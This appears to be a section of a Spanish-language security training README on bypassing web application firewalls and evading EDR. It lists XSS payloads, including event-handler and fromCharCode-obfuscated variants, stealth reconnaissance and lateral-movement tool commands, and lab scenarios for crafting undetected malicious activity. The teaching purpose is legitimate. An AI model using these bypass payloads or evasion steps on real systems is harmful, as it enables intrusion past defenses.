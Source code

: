 ### Técnicas de Bypassing WAF
```javascript
// Fragmentación de payloads
payload_part1 = "<script>";
payload_part2 = "alert(1)";
payload_part3 = "</script>";

// Uso de eventos alternativos
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<body onload=alert(1)>

// Context switching
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
```

## 🔬 Análisis de Efectividad

### Métricas de Evaluación
1. **Tasa de Bypass** - % de filtros evadidos
2. **Complejidad** - Nivel de ofuscación requerido
3. **Funcionalidad** - Preservación del comportamiento original
4. **Sigilo** - Capacidad de evitar detección

### Herramientas de Testing
```bash
# Web Application Testing
python3 web_discover.py --url https://target.com --wordlist payloads.txt

# Network Reconnaissance  
python3 advanced_network_mapper.py --target 192.168.1.0/24 --stealth

# Threat Simulation
python3 real_time_threat_correlator.py --simulate lateral_movement
```

## 🎮 Laboratorio Interactivo

### Escenario 1: WAF Bypass Challenge
1. Identificar filtros activos
2. Desarrollar payloads de bypass
3. Validar efectividad
4. Documentar técnicas exitosas

### Escenario 2: EDR Evasion
1. Analizar comportamiento normal
2. Diseñar actividad maliciosa sigilosa
3. Implementar técnicas de evasión
4. Evaluar detección
